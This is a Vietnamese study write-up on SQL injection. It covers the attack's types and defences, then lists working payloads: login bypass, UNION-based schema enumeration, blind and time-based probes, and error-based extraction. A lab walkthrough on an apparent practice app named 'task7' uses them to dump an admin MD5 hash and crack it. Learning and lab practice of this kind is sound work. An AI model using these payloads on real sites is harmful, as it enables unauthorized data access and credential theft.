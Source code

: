 # Task 7

# tìm hiểu về SQLi
## 1. SQLi
là cuộc tấn công mà attacker can thiệp vào cơ sở dữ liệu thông qua các câu truy vấn để truy xuất, sửa đổi, xóa hoặc gây ảnh hướng đến database hay nội dung thao tác của người dùng.
## 2. Hậu quả của SQLi
Một cuộc tấn công SQLi thành công có thể khiến những dữ liệu nhạy cảm bị truy cập trái pháp. Tài khoản ngân hàng, tài khoản mạng xã hội, số điện thoại, thông tin cá nhân,... Nhiều vụ vi phạm dữ liệu nghiêm trọng gần đây là kết quả của các cuộc tấn công SQLi. Không chỉ vậy nó còn làm ảnh hưởng đến uy tín của đơn vị chủ quản. Trong một số trường hợp kẻ tấn công có thể chiếm dược 1 backdoor vào hệ thống của tổ chức dẫn đến sự xâm phạm kéo dài không được chú ý gây khó khăn cho việc điều tra.
## 3. SQLi hoạt động
* đầu tiên attacker sẽ tìm các điểm yếu trên web như input, parameter,...
* sau đó attacker sử dụng các câu lệnh SQL cùng với các ký tự khác để xác định cách truy cập vào database
* cuối dùng dùng các câu lệnh SQL để tấn công
## 4. Các loại SQL 
![](https://i.imgur.com/SsmY2Zf.png)
có 3 loại chính là
* error based SQLi: Dựa vào lỗi trong câu lệnh SQL để xác định cấu trúc database từ đó tìm ra cách truy cập vào database
* Union based SQLi: Sử dụng câulệnh UNION trong các truy vấn SQL để truy cập vào database
* Blind SQLi: các phản hồi nhận được không chứa kết quả của truy vấn. Blind lại được chia làm 2 loại:
    * Boolean: câu truy vấn trả về đúng hoặc sai từ đó attacker điều chỉnh câu truy vấn
    * time-based: attacker sẽ sử dụng câu truy vấn làm database trả về kết quả trong 1 thời ịnh tùy thuộc vào thuộc tính đúng sai, từ đó điều chỉnh câu truy vấn để khai thác.
## 5. Cách phòng chống SQLi
* Lọc dữ liệu từ người dùng: Cách phòng chống này tương tự như XSS. Ta sử dụng filter để lọc các kí tự đặc biệt (; ” ‘) hoặc các từ khoá (SELECT, UNION) do người dùng nhập vào. Nên sử dụng thư viện/function được cung cấp bởi framework. Viết lại từ đầu vừa tốn thời gian vừa dễ sơ sót.
* Không cộng chuỗi để tạo SQL: Sử dụng parameter thay vì cộng chuỗi. Nếu dữ liệu truyền vào không hợp pháp, SQL Engine sẽ tự động báo lỗi, ta không cần dùng code để check.
* Không hiển thị exception, message lỗi: Hacker dựa vào message lỗi để tìm ra cấu trúc database. Khi có lỗi, ta chỉ hiện thông báo lỗi chứ đừng hiển thị đầy đủ thông tin về lỗi, tránh hacker lợi dụng.
* Phân quyền rõ ràng trong DB: Nếu chỉ truy cập dữ liệu từ một số bảng, hãy tạo một account trong DB, gán quyền truy cập cho account đó chứ đừng dùng account root hay sa. Lúc này, dù hacker có inject được sql cũng không thể đọc dữ liệu từ các bảng chính, sửa hay xoá dữ liệu.
* Backup dữ liệu thường xuyên: Các cụ có câu “cẩn tắc vô áy náy”. Dữ liệu phải thường xuyên được backup để nếu có bị hacker xoá thì ta vẫn có thể khôi phục được.
## 6. cách khai thác SQL 
### cách phát hiện
* Gửi dấu nháy đơn ' , nháy kép ", chấm phẩy ;, ký tự comment như --, #,... và chờ kết quả phản hồi của web.
* Gửi các điều kiện boolean như OR 1=1, OR 1=2 ... và xem phản hồi.
* Gửi payload thử thời gian trả về như SLEEP(5), pg_sleep(10), DELAY '0:0:10' ...

### Khai thác:
#### error-based:
Chèn một truy vấn độc hại với mục tiêu nhận được thông báo lỗi cung cấp thông tin nhạy cảm về db.
Phá bỏ tính logic của ứng dụng:
ví dụ 
``` php 
"SELECT * FROM user WHERE username='$username' and password='$password' ";
 ```
 với dòng kiểm tra như trên chúng ta có thể đăng nhập vào với admin mà không cần sử dụng pasword bằng cách nhập tên đăng nhập 
với payload:  `admin'-- ` hoặc dùng `admin' OR 1=1 -- `
khi đó câu truy vấn sẽ bị comment hết phần từ sau. 
``` php 
"SELECT * FROM user WHERE username='admin'-- and password='$password' ";
 ```


#### Union-based:
Trả về kết quả của các câu lệnh SELECT từ bảng khác với điều kiện trả về cùng số cột và kiểu dữ liệu của cột.

Xác định số cột cần để tấn công: Sử dụng ORDER BY ví dụ ' ORDER BY x-- với x là số cột cần thử và từ phản hồi tìm được số cột.

có 2 cách thường được sử dụng để tìm số cột của bảng.
 sử dụng `UNION SELECT`:

```
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
 sử dụng `ORDER BY`
```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
```

truy suất db tên bảng, tên cột:
```
#Database names
-1' UNION SELECT 1,2,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata

#Tables of a database
-1' UNION SELECT 1,2,3,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=[database]

#Column names
-1' UNION SELECT 1,2,3,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=[table name]
```

#### blind SQLi:
không thể nhìn thấy kết quả truy vấn lỗi nhưng có thể phân biệt được phản hồi đúng hay sai dựa vào nội dung trả về trên trang. Khi đó có thể truy xuất tường ký tự của dữ liệu trong db: 
```
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```
##### ERROR blind SQLi:
Đây là trường hợp tương tự như trước nhưng thay vì phân biệt giữa phản hồi đúng/sai từ truy vấn thì có thể phân biệt giữa lỗi trong truy vấn SQL hay không (có thể do lỗi HTTP server). Do đó, trong trường hợp này có thể buộc một SQLerror mỗi khi bạn đoán đúng ký tự:

`AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- - `

Time-base SQLi:
Đây là trường hợp không phân biệt được truy vấn dựa vào ngữ cảnh của trang web. Tuy nhiên có thể biết được kết quả truy vấn đúng hay sai bằng cách xác định thời gian trả về từ database:
`1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#`

## Thực hành nàoooo
### Error based:
tại màn hình đăng nhập. em đã nhập payload: `''` thử để kiểm tra và nhập một mật khẩu bất kì vì web yêu cầu phải điền mật khẩu. sau đó em thấy web hiện error lên là tín hiệu để có thể khai thác.
![](https://i.imgur.com/7m2UG1c.png)
đầu tiên là tìm tên bảng, em sẽ sử dụng payload: `' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `

ở đây tận dụng lỗi Duplicate entry for key 'group_key' key trùng nhay ở đây sẽ là 
![](https://i.imgur.com/PnyABCb.png)
vậy là từ việc web báo lỗi, chúng ta đã biết được tên database là 'task7'
tiếp theo là tên bảng, em sử dụng payload tương tự bên trên. `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='task7'),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/PEUUVCa.png)
vậy là thu được table name là 'user' 
 tiếp theo chúng ta sẽ tìm từng cột của bảng user đó. Em sử dụng payload:
`' or 1=1 group by concat((select column_name from information_schema.columns where table_name='user' and table_schema='task7' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

limit sẽ cho em lấy được tên của từng cột một. tăng dần giá trị của limit lên em sẽ thu được những cột khác nhau.

![](https://i.imgur.com/D5w8V4S.png)
![](https://i.imgur.com/9UGL3BP.png)
![](https://i.imgur.com/8ACWe5Q.png)
với limit 3,1 web trả về NULL tức là bảng chỉ có 3 cột lần lượt là id, username, pasword

bây giờ ta sẽ khai thác thẳng vào thông tin của những người dùng.
đầu tiên em sẽ tìm username và password của người đầu tiên bằng payload: 
`' or 1=1 group by concat((select user from user limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/ahHawYp.png)
`' or 1=1 group by concat((select password from user limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/EraR9Xp.png)
vậy ta thu được : 
username: admin
password: 0cc175b9c0f1b6a831c399e269772661
đem password đi md5decode ta được pass ban đầu là a

để khai thác các đối tượng khác trong bảng thì ta chỉ cần tiếp tục làm tương tự. thay đổi giá trị k tại limit k,1.

### UNION
... 
em thử đúng 1 payload là: `' OR 1=1 ORDER BY 1 -- ` 
![](https://i.imgur.com/NzqaE0i.png)
xong rùi nó hiện ra hết thông tin lun TvT
username: admin
password: 0cc175b9c0f1b6a831c399e269772661
đem password đi md5decode ta được pass ban đầu là a